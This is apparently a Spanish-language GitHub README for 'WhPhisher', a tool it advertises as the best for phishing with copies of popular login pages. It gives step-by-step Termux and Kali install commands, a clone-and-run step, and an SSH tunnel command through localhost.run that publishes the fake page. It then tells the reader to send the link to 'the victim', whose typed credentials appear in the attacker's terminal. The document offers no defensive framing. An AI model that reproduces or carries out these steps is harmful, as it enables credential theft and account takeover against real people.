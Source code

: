 # WhPhisher

La mejor herramienta para hacer phishing con las páginas más famosas actualizadas.

# Probado en:
Termux, Kali Linux y debian

# Pasos

Para qué hayan menos probabilidades de que falle esta herramienta, se aconseja instalar la última versión de Termux, y Termux API.

Termux Última versión --> 
https://f-droid.org/repo/com.termux_117.apk

Termux API Última versión --> https://f-droid.org/repo/com.termux.api_51.apk


# Como instalar


`termux-setup-storage`

`pkg update`

`pkg install proot`

`pkg install curl`

`pkg install python`

`pkg install python2`

`pkg install ssh`

`pkg install python3`

`pkg install openssh`

`pkg install git`

`pkg update & apt upgrade`

`pkg install tmux`

`pkg install bash`

`pkg upgrade && update`

`git clone https://github.com/WhBeatZ/WhPhisher`

`cd WhPhisher`

`python3 WhPhisher.py`

[![Virtual-Box-VM-Dib-Vpuj-JG9.png](https://i.postimg.cc/K86wfbyL/Virtual-Box-VM-Dib-Vpuj-JG9.png)](https://postimg.cc/XrgsNTq7)

Elegir la página y esperar a que inicie el túneling.

[![Virtual-Box-VM-pqnlsb1ey-B.png](https://i.postimg.cc/gJJMyjfj/Virtual-Box-VM-pqnlsb1ey-B.png)](https://postimg.cc/mcvNBLZW)

# Solucion si no se genera el link o no funciona

Pasos:

`Abrimos nueva sesión`

`cd`

`pkg install openssh -y`

`ssh -R 80:localhost:8080 nokey@localhost.run`

Compartir el link que se generó

# Como debería de quedar
- Lo verde tapa información personal 
- La flecha amarilla apunta al link que hay que compartir

[![Pics-Art-12-28-12-04-12.jpg](https://i.postimg.cc/Dw0djMxM/Pics-Art-12-28-12-04-12.jpg)](https://postimg.cc/yDqZWv4m)

# Resultado

- El link que le enviaste a la victima: 

[![chrome-NQpwa-Yi-Wxc.png](https://i.postimg.cc/mrxzN5JH/chrome-NQpwa-Yi-Wxc.png)](https://postimg.cc/k2cg7fnJ)

Cuando la víctima pone sus credenciales, nos llegan en la terminal:

[![Virtual-Box-VM-t1m8-G0-J0-MQ.png](https://i.postimg.cc/wjj0Y7jV/Virtual-Box-VM-t1m8-G0-J0-MQ.png)](https://postimg.cc/4mjzz4t7)


